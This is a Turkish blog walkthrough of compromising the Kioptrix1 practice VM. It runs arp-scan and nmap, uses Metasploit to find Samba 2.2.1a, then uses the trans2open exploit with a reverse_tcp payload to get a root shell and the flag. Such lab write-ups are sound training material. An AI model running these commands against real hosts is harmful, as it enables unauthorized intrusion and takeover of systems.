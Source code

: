 ```yaml
---
title: "[TR] Kioptrix1 - Walkthrough"
date: 2020-10-10 00:24:00 +03:00
tags:
- ctf
- walkthrough
- hacking
---
```


Merhaba arkadaşlar,bugün sizlere Kioptrix1 isimli zafiyetli makineyi ele geçirmeye çalışacağım.


**UYARI!** Kioptrix makinesinin .vmx uzantılı dosyasını not defteri gibi uygulama ile açıp "bridged" kelimesini aratın.Ardından iki tırnak içerisindeki "bridged" kelimesini "nat" ile değiştirin.Aynı zamanda kendi makineninizinde NAT seçeğini ile bağlandığından emin olun.


İlk olarak **ifconfig** komutu ile kendi makinemin IP adresini öğreniyorum.

![Kali LİNUX-2020-10-09-23-43-30-79621c.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-43-30-79621c.png)

Ardından sanal makinemde localhost üzerinden **arp-scan -l** taraması yapıyorum.

![Kali LİNUX-2020-10-09-23-02-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-02-50.png)

Evet,Kioptrix1 isimli hedef makinemizin IP Adresini **192.168.75.156** olarak öğrendim.

Şimdi sırada nmap taraması yapmakta.
**nmap -sS -sV  192.168.75.156** komutu ile nmap taramamı başlatıyorum.Bu taramada tcp syn scan isteği ve versiyon tespitini de istemiş oluyorum.

![Kali LİNUX-2020-10-09-23-04-53-8d7406.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-04-53-8d7406.png)

Nmap parametreleri isteği doğrultusunda açık olan portları görebiliyorum şuan.Fakat 139/tcp portunun versiyon tespitini alamadık.Bunu öğrenmek için Metasploit aracını kullanacağım.

Yeni bir komut satırı açıp **msfconsole** komutu ile Metasploit aracını açıyorum.

![Kali LİNUX-2020-10-09-23-07-46.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-07-46.png)

Versiyon tespitini öğrenmek için Auxiliary modülünü kullanacağım.
Komut satırına **show auxiliary** yazarak Auxiliary modülünün içeriğini görüntülüyorum.

![Kali LİNUX-2020-10-09-23-12-24.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-12-24.png)

Bu modül içeriğini baktığımda **scanner/smb/smb_version** modülünü görüyorum.Bunu kullanacağım. 

![Kali LİNUX-2020-10-09-23-13-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-13-50.png)

Şimdi sıra bu modülü kullanmakta.Komut satırına **use scanner/smb/smb_version** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-14-06-951382.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-06-951382.png)

Bu modülün ayarlamalarını yapacağım çünkü buna hedef makinenin IP adresini tanımlamam gerek.Komut satırına **show options** komutu yazarak ayarlamaları görüntülüyorum.

![Kali LİNUX-2020-10-09-23-14-19-64ce2e.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-19-64ce2e.png)

**set rhosts 192.168.75.156** komutu ile hedef makinenin IP adresini tanımladım.

![Kali LİNUX-2020-10-09-23-14-52.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-52.png)
![Kali LİNUX-2020-10-09-23-15-05.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-05.png)

Hedef makinemizin IP Adresini tanımladıktan sonra **run** komutu ile bu modülü çalıştıyorum.

![Kali LİNUX-2020-10-09-23-15-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-17.png)

EVET! Version tespitini yaptık **Samba 2.2.1a**

Şimdi bu versiyona uygun exploit bulmakta.Msfconsole içerisinde **search Samba 2.2** komutu ile arama yapıyorum.

![Kali LİNUX-2020-10-09-23-16-35.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-16-35.png)

Bize uygun exploit seçeneğini buldum gibi.Bu modülü kullanacağım.Bunun için **use exploit/linux/samba/trans2open** komutunu yazarak exploiti kullanacağım.Ama öncesinde exploiti çalıştırabilmek için hedef sistemin IP adresini atayacağım.

![Kali LİNUX-2020-10-09-23-17-45.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-17-45.png)
![Kali LİNUX-2020-10-09-23-18-00.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-00.png)

Ip adresini tanımladık gördüğünüz gibi.

![Kali LİNUX-2020-10-09-23-18-08.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-08.png)

Şimdi buradaki payload listesini görüntüleyelim.Komut olarak 
**show payloads** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-19-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-19-33.png)

İçeriğine bakarak bana uygun olan payload olan **linux//x86/shell/reverse_tcp** gibi bunu kullanarak hedef makine üzerinde Reverse Shell almayı deneyeceğim.

![Kali LİNUX-2020-10-09-23-21-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-17.png)

Ardından **run** diyerek çalıştırıp shell almaya çalışıyorum.

![Kali LİNUX-2020-10-10-00-45-20.png](/uploads/Kali%20L%C4%B0NUX-2020-10-10-00-45-20.png)

**Whoami** komutu ile root olduğumuzu gördük.

![Kali LİNUX-2020-10-10-00-52-03.png](/uploads/Kali%20L%C4%B0NUX-2020-10-10-00-52-03.png)

Şimdi var/mail/ dizini içerisinde root u okuyoruz ve başarıyla
flag tamamladık.

![Kali LİNUX-2020-10-09-23-21-42.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-42.png)







